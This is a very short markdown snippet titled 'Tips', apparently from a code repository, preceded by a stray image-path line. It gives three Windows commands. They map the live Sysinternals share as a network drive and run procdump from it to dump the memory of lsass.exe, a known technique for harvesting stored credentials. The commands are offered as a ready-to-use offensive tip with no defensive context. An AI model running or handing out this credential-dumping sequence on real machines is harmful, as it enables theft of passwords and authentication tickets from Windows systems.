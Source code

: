 # Tips

* Map SysInterals
net use Z: http://live.sysinternals.com \tools\ "/user:"
dir Z:
Z:\procdump -accepteula -ma lsass.exe lsassdmp

